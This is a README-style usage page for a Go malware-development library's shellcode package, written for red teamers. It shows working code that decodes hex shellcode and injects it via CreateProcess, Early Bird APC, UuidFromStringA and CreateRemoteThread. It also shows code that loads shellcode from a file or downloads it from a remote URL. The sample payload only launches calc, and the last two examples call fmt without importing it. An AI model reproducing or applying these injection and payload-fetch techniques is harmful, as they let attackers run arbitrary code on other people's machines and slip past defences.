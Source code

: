 # Shellcode Examples

- This package provides useful functions to help red teamers with shellcode injection

\* Have in mind that a lot of errors have not been handled in shellcode injection techniques because they usually throws false errors. However it should work as expected

## All Shellcode Injection Techniques

```go
package main

import (
  "log"
  "encoding/hex"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  calc_shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3")

  err := shellcode.CreateProcess(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.EarlyBirdApc(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.UuidFromStringA(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.CreateRemoteThread(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }
}
```

## Get shellcode from file

```go
package main

import (
  "log"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  shellcode_to_exec, err := shellcode.GetShellcodeFromFile("./shellcode.bin")
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(shellcode_to_exec)
}
```

## Get shellcode from remote url

```go
package main

import (
  "log"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  shellcode_to_exec, err := shellcode.GetShellcodeFromUrl("http://192.168.1.6/shellcode.bin")
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(shellcode_to_exec)
}
```






